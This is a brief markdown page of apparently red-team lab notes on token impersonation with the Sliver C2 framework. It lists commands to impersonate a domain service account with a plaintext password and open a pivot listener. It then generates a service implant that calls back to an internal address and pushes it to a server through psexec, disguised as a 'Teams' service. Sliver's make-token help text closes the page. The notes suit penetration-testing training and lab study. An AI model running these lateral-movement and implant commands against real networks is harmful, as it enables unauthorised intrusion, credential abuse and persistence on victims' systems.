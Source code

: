 ```yaml
---
description: Changing our current access token.
---
```


# Impersonation

With impersonation we can change our access token of the user we run as to another user, like doing with Runas. Sliver has the make-token command which will make a new token.

### Impersonation

```sh
# Impersonate
make-token -u svc_sql -d child.htb.local -p jkhnrjk123!

# Pivot listener
pivots tcp --bind 172.16.1.11

# Create implant
generate --format service -i 172.16.1.11:9898 --skip-symbols -N psexec-pivot

# Upload and run file with psexec
psexec --custom-exe /home/kali/sliver/psexec-pivot2.exe --service-name Teams --service-description MicrosoftTeaams srv01.child.htb.local
```

```sh
sliver > help make-token

Command: make-token -u USERNAME -d DOMAIN -p PASSWORD
About: Creates a new Logon Session from the specified credentials and impersonate the resulting token.
You can specify a custon Logon Type using the --logon-type flag, which defaults to LOGON32_LOGON_NEW_CREDENTIALS.
Valid types are:

LOGON_INTERACTIVE
LOGON_NETWORK
LOGON_BATCH
LOGON_SERVICE
LOGON_UNLOCK
LOGON_NETWORK_CLEARTEXT
LOGON_NEW_CREDENTIALS


Usage:
======
  make-token [flags]

Flags:
======
  -d, --domain     string    domain of the user to impersonate
  -h, --help                 display help
  -T, --logon-type string    logon type to use (default: LOGON_NEW_CREDENTIALS)
  -p, --password   string    password of the user to impersonate
  -t, --timeout    int       command timeout in seconds (default: 60)
  -u, --username   string    username of the user to impersonate
```

